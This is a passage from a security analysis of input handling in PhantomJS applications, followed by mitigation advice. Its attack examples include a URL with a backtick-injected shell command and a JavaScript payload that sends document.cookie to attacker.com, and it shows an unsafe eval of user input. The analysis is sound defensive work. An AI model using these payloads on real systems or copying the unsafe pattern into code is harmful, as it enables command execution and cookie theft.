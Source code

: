 #### 4.3. Attack Scenario Examples

**Scenario 1: Command Injection via URL Parameter in Rasterization Service**

Imagine an application that uses PhantomJS to generate PDF screenshots of websites based on user-provided URLs. The application might construct a command like this:

```bash
phantomjs rasterize.js "[USER_PROVIDED_URL]" output.pdf
```

If the `[USER_PROVIDED_URL]` is not sanitized, an attacker could provide a URL like:

```
https://example.com/`whoami > /tmp/pwned.txt`
```

When PhantomJS executes this command, the backticks will be interpreted by the shell, executing the `whoami` command and writing the output to `/tmp/pwned.txt` on the server. This demonstrates command injection.

**Scenario 2: Script Injection via User Input in `page.evaluate()`**

Consider an application that uses PhantomJS to extract data from a webpage based on user-defined JavaScript code snippets. The application might use `page.evaluate()` like this:

```javascript
page.evaluate(function(userInput) {
    // Unsafe usage of userInput
    return eval(userInput); // Extremely dangerous - direct eval of user input!
}, userInput);
```

If `userInput` is not sanitized, an attacker could inject malicious JavaScript code. For example, providing `userInput` as:

```javascript
'fetch("https://attacker.com/log?data="+document.cookie);'
```

This injected JavaScript would be executed within the PhantomJS context, potentially allowing the attacker to steal cookies or other sensitive data from the rendered page. Even without `eval()`, directly embedding user input into JavaScript strings within `page.evaluate()` can be risky if not properly escaped.

#### 4.4. Mitigation Strategies and Actionable Insights

To effectively mitigate the risk of insecure input handling in PhantomJS applications, the following security controls and best practices should be implemented:

1.  **Robust Input Validation and Sanitization (Fundamental Security Control):**
    *   **Principle of Least Privilege for Input:** Treat *all* user input as potentially malicious and untrusted.
    *   **Input Validation:** Implement strict input validation based on expected data types, formats, and ranges. Use allowlists (defining what is allowed) rather than denylists (defining what is disallowed), as denylists are often incomplete and easily bypassed.
    *   **Input Sanitization/Escaping:** Sanitize user input before using it in PhantomJS commands or scripts. This includes:
        *   **Command-Line Argument Escaping:**  When constructing command-line arguments for PhantomJS, use proper escaping mechanisms provided by the programming language or operating system to prevent command injection.  Avoid shell interpolation or direct string concatenation. Consider using libraries or functions designed for safe command execution.
        *   **JavaScript String Escaping:** When embedding user input into JavaScript strings within PhantomJS scripts (especially in `page.evaluate()`), properly escape special characters (e.g., single quotes, double quotes, backslashes) to prevent script injection.
        *   **Context-Aware Sanitization:**  Sanitize input based on the specific context where it will be used (e.g., URL encoding for URLs, HTML escaping for HTML content, JavaScript escaping for JavaScript code).
